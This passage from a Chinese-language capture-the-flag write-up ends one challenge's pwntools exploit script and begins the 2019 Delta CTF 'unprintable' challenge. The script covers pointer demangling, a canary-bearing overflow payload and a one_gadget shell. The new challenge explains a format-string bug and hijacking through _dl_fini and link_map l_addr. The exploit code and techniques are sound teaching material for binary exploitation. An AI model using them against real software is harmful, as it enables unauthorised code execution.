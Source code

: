 ```
a = u64(p.recv(8))
b = ROR(a,0x11)
c = b ^ libc.address+one[1]
print hex(a)
print hex(b)
payload = "a"*0x38+p64(canary)
payload = payload.ljust(0x850,'\x00')
payload += p64(0)*6+p64(c)
p.sendline(payload)

p.interactive()
```

### <a class="reference-link" name="2019%20delta%20ctf%20:%20unprintable"></a>2019 delta ctf : unprintable

很经典的一道关于格式化字符串的利用，这里也稍微讲解一下。

程序截图如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203707.png)

关闭了回显，并且存在格式化字符串漏洞，但是直接通过exit函数退出了，并且栈上也没有什么可以利用的点：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203713.png)

但细心点可以发现下面两个地址：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203725.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203725.png)

在调用exit函数退出程序时，会调用到的`_dl_fini`函数，而该函数会根据link_map的l_addr偏移量来调用`&amp;fini_ararry+l_addr`中存放的函数：

```
if (l-&gt;l_info[DT_FINI_ARRAY] != NULL)
`{`
    ElfW(Addr) *array =
    (ElfW(Addr) *) (l-&gt;l_addr+ l-&gt;l_info[DT_FINI_ARRAY]-&gt;d_un.d_ptr);
    unsigned int i = (l-&gt;l_info[DT_FINI_ARRAYSZ]-&gt;d_un.d_val / sizeof (ElfW(Addr)));
    while (i-- &gt; 0)
    ((fini_t) array[i]) ();
`}`
```

在gdb中调试可以发现如下代码：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203720.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203720.png)

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203737.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203737.png)
